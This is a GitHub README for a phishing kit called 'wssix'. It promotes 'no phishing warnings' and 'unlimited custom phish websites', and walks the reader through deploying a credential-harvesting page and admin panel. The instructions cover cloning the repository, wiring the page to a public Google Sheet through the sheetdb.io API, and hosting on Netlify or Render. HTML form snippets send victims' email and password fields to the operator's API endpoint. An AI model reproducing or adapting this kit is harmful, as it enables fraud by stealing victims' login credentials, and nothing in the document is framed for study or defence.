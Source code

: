 
# wssix
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells like this :


![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## **Setup phish page**  ...

- Now, First clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Inside **client** folder , Open **index.html** file.

- In this file search this string : 
```bash
https://your-api
```
and replace this with Your API.


## **Setup Admin Panel**  ...
- Now open **Admin-wssix** Folder.
- Goto **/static/js/** folder and open **main.864cb797.js** file.

- In this file search this string :
```bash 
http://your-sheetdb-api
```
and replace with your  **sheetdb** api.

**All done.....**

Now host **Admin-wssix** folder and **client** folder separately.
For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

### Now! we have our own phishing page

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

